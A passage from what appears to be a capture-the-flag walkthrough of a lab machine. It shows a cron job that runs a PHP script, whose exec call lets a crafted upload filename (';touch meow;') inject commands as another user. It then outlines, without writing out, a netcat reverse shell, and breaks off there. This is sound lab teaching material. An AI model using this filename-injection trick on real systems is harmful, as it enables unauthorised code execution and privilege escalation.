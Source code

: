 ```none
bash-4.2$ ls -lis
ls -lis
total 12
 8466059 4 -r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
13052677 4 -rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
13053629 4 -r--------. 1 guly guly  33 Oct 30  2018 user.txt
```

From the `crontab.guly` file, we can see there is an entry that will run the `check_attack.php` file every 3 minutes.

```none
bash-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```

If we can modify the script, we can get code execution as `guly`. The `check_attack.php` script is quite interesting as it leverages the `lib.php` file that we have already seen. It has two `exec` statements, where one of these statements has a variable that we control - the name (without extension) of a file we can upload (or just create in the uploads folder).

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

I think the machine author tried to make this a little harder by naming the uploaded file name as `$value`, instead of something like `$filename`. We can just inject any filename, and close the command using a semi colon (`;`) then a command of our choice.

I started by changing to the web uploads directory, as this is where the script checks for uploaded files.

```none
cd /var/www/html/uploads
```

And created a file with the name: `;touch meow;`. This should simply create a file named `meow`. This is a good PoC to see we have code execution, and we can see if the created file is owned by the `guly` user too.

```none
touch ';touch meow;'
```

We can confirm this is working, as it will create the file named `meow`. I am guessing this will be in the `guly` home folder, as this is where to cron file is located.

```none
[guly@networked ~]$ ls -lis /home/guly/meow
12825595 0 -rw-r--r-- 1 guly guly 0 Sep 25 03:48 /home/guly/meow
```

This PoC confirms the filename exploit works, now we can make a more complex payload to get a reverse shell. I had to do a lot of research for this step, as you cannot use slashes in a Linux file name. This means that most of the common reverse shells cannot be used. Finally found a method to leverage netcat with the `-c` option to execute code (thanks ippsec). For the code to execute, we can call bash to connect to our attacking machine.
